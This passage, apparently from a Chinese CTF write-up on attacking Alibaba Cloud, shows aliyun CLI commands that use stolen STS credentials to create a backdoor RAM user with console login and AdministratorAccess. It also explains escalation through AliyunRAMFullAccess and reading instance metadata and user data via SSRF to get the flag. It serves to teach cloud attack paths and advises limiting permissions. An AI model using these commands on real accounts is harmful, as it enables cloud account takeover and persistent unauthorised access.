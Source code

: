 将获得的凭证三件套配置到 CLI 中，即可调用 API 创建可登录控制台且具备管理员权限的 RAM 账号：

```bash
$ aliyun configure --mode StsToken
$ aliyun ram CreateUser --UserName merc
$ aliyun ram CreateLoginProfile --UserName merc --Password ee027a5983ffb0c4
$ aliyun ram AttachPolicyToUser --PolicyType System --PolicyName AdministratorAccess --UserName merc
```

登录控制台时需要 UID 作为后缀，可以通过 `aliyun ram GetAccountAlias` 获取。

实际上，只要 ECS 绑定的 RAM 角色具备 `AliyunRAMFullAccess` 权限，我们就可以通过调用 API 修改 RAM 策略的方式将自己的 RAM 用户提权到管理员。但如果不具备修改 RAM 策略的权限，那么只能在该 RAM 角色当前具备的权限范围内进行操作了。因此合理控制云上实体（用户/角色/服务）的权限范围尤为重要。

## 获取 flag

在 [官方文档](https://help.aliyun.com/zh/ecs/user-guide/view-instance-metadata) 中记录了所有实例元数据的含义，其中存在很多有价值的信息，例如获取 VPC/VSwitch 网段，可以用于后续内网扫描：

![图 6｜获取 VPC 网段](6.png)

或是实例的自定义数据（不属于元数据，在上一层目录）：

![图 7｜获取自定义数据](7.png)

从这里可以发现自定义数据中的 flag 路径，利用 SSRF 即可读取：

![图 8｜获取 flag](8.png)
